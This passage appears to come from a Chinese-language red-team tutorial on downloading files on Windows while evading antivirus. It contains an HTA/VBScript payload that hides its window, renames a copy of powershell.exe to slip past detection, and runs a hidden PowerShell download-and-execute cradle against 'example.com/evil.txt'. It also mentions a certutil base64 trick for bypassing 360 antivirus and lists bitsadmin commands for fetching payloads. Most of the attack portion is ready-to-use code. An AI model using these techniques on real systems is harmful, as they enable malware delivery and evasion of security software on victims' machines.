 ```html
</body>
</HEAD> 
</HTML>

```

同样的，该方法可以绕过360来进行下载，我们可以先将文件base64编码，然后利用该脚本下载，最后利用certutil.exe来对文件解码。

当然我们也可以直接利用mstha来执行powershell的命令，从而达到下载文件的效果。

```html
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Window.ReSizeTo 0, 0
Window.moveTo -2000,-2000
Dim fso
Set fso = CreateObject("Scripting.FileSystemObject")
fso.CopyFile "C:/Windows/System32/WindowsPowerShell/v1.0/powershell.exe", "C:/Windows/Temp/powershell.tmp", True
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "C:/Windows/Temp/powershell.tmp -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://example.com/evil.txt'))"""
self.close
</script>
<body>
</body>
</HEAD> 
</HTML> 
```



## Bitsadmin

BITSAdmin是一个命令行工具，可用于创建下载或上传并监视其进度，自windows7 以上版本内置bitsadmin，它可以在网络不稳定的状态下下载文件，出错会自动重试，在比较复杂的网络环境下，有着不错的性能。不过该功能存在一个缺点，需要管理员权限。

bitsadmin存在多种下载命令：

```
bitsadmin /rawreturn /transfer getfile http://example.com/test.zip c:\windows\temp\test.zip

bitsadmin /rawreturn /transfer getpayload http://example.com/test.zip c:\windows\temp\test.zip

//该命令带有进度条
bitsadmin /transfer myDownLoadJob /download /priority normal "http://example.com/test.zip" "c:\windows\temp\test.zip"

//以创建计划任务的形式执行命令
bitsadmin /create myDownloadJob   //创建任务
bitsadmin /addfile myDownloadJob http://example.com/test.zip c:\windows\temp\test.zip   //给任务添加下载文件
bitsadmin /resume myDownloadJob 
bitsadmin /info myDownloadJob /verbose
bitsadmin /complete myDownloadJob
```
